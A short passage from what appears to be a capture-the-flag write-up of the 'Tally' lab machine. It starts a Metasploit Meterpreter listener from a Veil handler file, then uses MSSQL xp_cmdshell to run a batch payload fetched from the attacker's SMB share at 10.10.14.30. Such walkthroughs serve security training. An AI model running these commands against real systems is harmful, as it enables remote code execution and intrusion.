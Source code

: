 We can now start up our Meterpreter listner with:
{% highlight bash %}
msfconsole -r /var/lib/veil/output/handlers/tally-msf.rc
{% endhighlight %}

![](/images/tally/msf-1.png)

We can now execute our bat file over the network with `xp_cmdshell` and our `SMB Server`

{% highlight bash %}
xp_cmdshell '\\10.10.14.30\share\tally-msf.bat'
go
{% endhighlight %}

![](/images/tally/msf-2.png)
